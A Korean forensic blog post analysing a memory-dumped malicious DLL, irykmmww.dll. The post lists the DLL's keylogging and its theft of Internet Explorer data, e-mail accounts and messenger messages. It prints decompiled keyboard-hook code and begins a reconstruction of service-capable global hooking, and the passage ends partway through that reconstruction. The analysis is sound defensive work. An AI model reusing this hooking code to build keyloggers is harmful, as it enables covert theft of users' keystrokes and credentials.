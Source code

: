 <p>이번 글부터 메모리 분석 과정에서 악성코드로 추정되는 3개의 파일을 분석하기로 한다. Part I에서 여러 개의 바이너리를 덤프했지만 동일한 DLL이 다른 프로세스에 인젝션되어 있었으며, 결국 3개의 악성코드(DLL, D1L, SYS)로 분류된다. 여기에서는 가장 많은 프로세스에 인젝션(explorer.exe 및 그 하위 프로세스)된 irykmmww.dll 을 분석해보고자 한다. 분석에는 가장 코드 복구가 잘 된 "explorer.exe(PID: 1672)"에 인젝션된 바이너리로 선정하였다.</p>
<p><a href="http://forensic.n0fate.com/wp-content/uploads/2014/02/irykmmww.dll_.jpg"><img class="aligncenter size-full wp-image-811" alt="irykmmww.dll" src="{{ site.baseurl }}/assets/irykmmww.dll_.jpg" width="1024" height="768" /></a></p>
<p>한가지 유의할 점은 여기서 덤프한 바이너리는 모두 메모리에서 덤프한 것이다. 즉, 일부 코드가 유실되거나 변경되어 있을 수 있으며, 내부 호출 함수의 심볼 정보도 대부분 유실되어 있다. 그렇다보니 추측으로 알아내야하는 데이터도 존재할 수 있다.</p>
<h2>1. 주요 기능</h2>
<p>이 DLL은 현재 D1L에 의해 인젝션 되는 것으로 추정되며, 크게 다음 기능을 가진다.</p>
<ol>
<li>다른 프로세스가 DLL에 있는 Export 함수 호출 시 전역 키보드 후킹</li>
<li>Internet Explorer 정보유출</li>
<li>Office OutLook, FoxMail, Outlook Express 계정 정보 유출</li>
<li>MSN, QQ, ICQ 메시지 유출</li>
</ol>
<p>이 DLL은 자동 실행 기능을 보유하고 있진 않으며, 클라이언트에 존재하는 정보를 유출하는 가장 중요한 임무를 가진다. 익스포트 함수 호출을 제외한 모든 후킹은 스레드 형태로 동작한다.</p>
<h2>2. 다른 프로세스가 DLL에 있는 Export 함수 호출 시 전역 키보드 후킹</h2>
<p>D1L이 익스포트 함수를 호출하면,  OpenWindowStation API로 윈도우 스테이션을 열고, OpenDesktop으로 현재 데스크탑을  오픈한 후, SetWindowsHookEx로 키보드 후킹을 수행한다.</p>
<pre class="lang:c++ decode:true" title="SK - Export Function">int __cdecl SK(LPCSTR lpString2)
{
  DWORD v1; // eax@1
  HWINSTA v2; // eax@1
  HDESK v3; // eax@3

  byte_9775C8 = 2;
  GetProcessWindowStation();
  v1 = GetCurrentThreadId();
  GetThreadDesktop(v1);
  byte_9775C8 = 30;
  v2 = OpenWindowStationA("winsta0", 0, 895u);
  if ( v2 )
  {
    byte_9775C8 += 42;
    SetProcessWindowStation(v2);
  }
  v3 = OpenDesktopA("Default", 1u, 0, 0x400001CFu);
  if ( v3 )
    SetThreadDesktop(v3);
  byte_9775C8 *= 32;
  lstrcpyA("C:DOCUME~1demoLOCALS~1Tempirykmmww.log", lpString2);
  if ( !dword_97A504 )
    dword_97A504 = SetWindowsHookExA(2, KeyboardMessageHook, hmod, 0);
  if ( !hhk )
    hhk = SetWindowsHookExA(4, ImmKeyboardHook, hmod, 0);
  return SetWindowHooks();
}</pre>
<p>보통 SetWindowsHookEx만으로 후킹을 거는 것에 비하면 앞에 여러 API를 호출하는 것을 볼 수 있다. SetWindowsHookEx API는 Thread ID를 필요로하는데, 보통 악성코드는 FindWindow로 이 ID를 획득한다. 이 API는 애플리케이션이 아닌 윈도우 서비스에서 실행된다면,  서비스는 윈도우 스테이션과 데스크탑이 정의되지 않았기 때문에 실패를 리턴하게 된다. 이 악성코드는 이러한 상황을 고려하여 서비스에서도 동작이 가능한 전역 후킹을 설정하였다. 다음은 위 코드를 실제 코드화한 것이다.</p>
<pre class="lang:default decode:true" title="SetWindowsHookEX() as a Windows service">// reference
// http://cboard.cprogramming.com/windows-programming/144588-%5Bwin7%5D-setwindowshookex-windows-service-setthreaddesktop.html
//
HHOOK hHook = NULL;
HHOOK ImmHook = NULL;
HHOOK IMEHook = NULL;
HINSTANCE hmod = hinstDLL;
